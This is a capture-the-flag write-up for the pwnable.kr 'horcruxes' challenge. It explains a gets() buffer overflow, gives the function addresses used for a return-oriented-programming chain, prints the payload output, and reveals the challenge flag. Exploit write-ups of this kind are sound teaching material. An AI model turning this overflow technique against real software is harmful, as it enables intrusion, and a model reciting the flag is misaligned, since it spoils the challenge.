 # pwnable.kr -- Toddler's Bottle -- horcruxes

## 1. Challenge

> Voldemort concealed his splitted soul inside 7 horcruxes.  
> Find all horcruxes, and ROP it!  
> author: jiwon choi  
>   
> ssh horcruxes@pwnable.kr -p2222 (pw:guest)  

## 2. Solution

Log in via SSH and you will see two files: `horcruxes` and `readme`. `readme` is a text file and it says:

```
horcruxes@ubuntu:~$ cat readme
connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn privilege.
rop it to read the flag.

horcruxes@ubuntu:~$
```

Fine. Let's download `horcruxes` and drop it into IDA. You can find that there are 7 random integers, `a`, `b`, `c`, ... `g`, generated and `sum` is set to the sum of these 7 integers in function `init_ABCDEFG()`. Because the seed of function `rand()` is set by 4 bytes read from `/dev/urandom`, we cannot hack it.

Now let's go to see function `ropme()`. 



```c
int ropme() {
  char s[100]; // [esp+4h] [ebp-74h]
  int v2; // [esp+68h] [ebp-10h]
  int fd; // [esp+6Ch] [ebp-Ch]

  printf("Select Menu:");
  __isoc99_scanf("%d", &v2);
  getchar();
  if ( v2 == a ) {
    A();
  }
  else if ( v2 == b ) {
    B();
  }
  else if ( v2 == c ) {
    C();
  }
  else if ( v2 == d ) {
    D();
  }
  else if ( v2 == e ) {
    E();
  }
  else if ( v2 == f ) {
    F();
  }
  else if ( v2 == g ) {
    G();
  } else {
    printf("How many EXP did you earned? : ");
    gets(s);
    if ( atoi(s) == sum )
    {
      fd = open("flag", 0);
      s[read(fd, s, 0x64u)] = 0;
      puts(s);
      close(fd);
      exit(0);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
  return 0;
}
```

Apparently, function `gets()` is called which means that we can make a buffer overflow and overwrite return address. However, there are something we sould take care of:

1. Naturally we want to set return address to `0x080A010B` which is the start of `fd = open("flag", 0);`. But `0x080A010B` has a bad char `0x0A`, also `\n`, which will stop function `gets()` reading from stdin. So we cannot set return address to `0x080A010B`.

2. The code block we want to execute has the following assembly code:

   ```asm
   .text:080A010B                 sub     esp, 8
   .text:080A010E                 push    0               ; oflag
   .text:080A0110                 push    offset file     ; "flag"
   .text:080A0115                 call    _open
   .text:080A011A                 add     esp, 10h
   .text:080A011D                 mov     [ebp+fd], eax
   .text:080A0120                 sub     esp, 4
   .text:080A0123                 push    64h             ; nbytes
   .text:080A0125                 lea     eax, [ebp+s]
   .text:080A0128                 push    eax             ; buf
   .text:080A0129                 push    [ebp+fd]        ; fd
   .text:080A012C                 call    _read
   .text:080A0131                 add     esp, 10h
   .text:080A0134                 mov     [ebp+eax+s], 0
   .text:080A0139                 sub     esp, 0Ch
   .text:080A013C                 lea     eax, [ebp+s]
   .text:080A013F                 push    eax             ; s
   .text:080A0140                 call    _puts
   .text:080A0145                 add     esp, 10h
   .text:080A0148                 sub     esp, 0Ch
   .text:080A014B                 push    [ebp+fd]        ; fd
   .text:080A014E                 call    _close
   .text:080A0153                 add     esp, 10h
   .text:080A0156                 sub     esp, 0Ch
   .text:080A0159                 push    0               ; status
   .text:080A015B                 call    _exit
   ```

   Obviously we cannot set `ebp` whatever we want which will be affect during buffer overflow. Otherwise an access violation would occur.

I though it would be a hard challenge. But I found that all of function `A()`, `B()`, ... `G()` are located on addresses that have no bad char `\n`:

```
func_A_addr = 0x0809FE4B
func_B_addr = 0x0809FE6A
func_C_addr = 0x0809FE89
func_D_addr = 0x0809FEA8
func_E_addr = 0x0809FEC7
func_F_addr = 0x0809FEE6
func_G_addr = 0x0809FF05
```

So we can execute these functions one by one and get the values of `a`, `b`, `c`, `d`, `e`, `f` and `g`. After that, execute `ropme()` again and input the right sum to get flag.

```
horcruxes@ubuntu:/tmp/solve2$ python2 ./solve.py 
[+] Opening connection to localhost on port 9032: Done
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu: 1
How many EXP did you earned? :  00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000\x00aaaK\xfe   j\xfe   \x89\xfe   \xa8\xfe   ��   ��  \x05\xff   ��   
You'd better get more experience to kill Voldemort
You found "Tom Riddle's Diary" (EXP +15452973)
You found "Marvolo Gaunt's Ring" (EXP +-1153331378)
You found "Helga Hufflepuff's Cup" (EXP +-1491435822)
You found "Salazar Slytherin's Locket" (EXP +129335114)
You found "Rowena Ravenclaw's Diadem" (EXP +-1692814741)
You found "Nagini the Snake" (EXP +-1940301612)
You found "Harry Potter" (EXP +94303011)

Select Menu: 1
How many EXP did you earned? :  -1743825159
Magic_spell_1s_4vad4_K3daVr4!

[*] Closed connection to localhost port 9032
horcruxes@ubuntu:
```

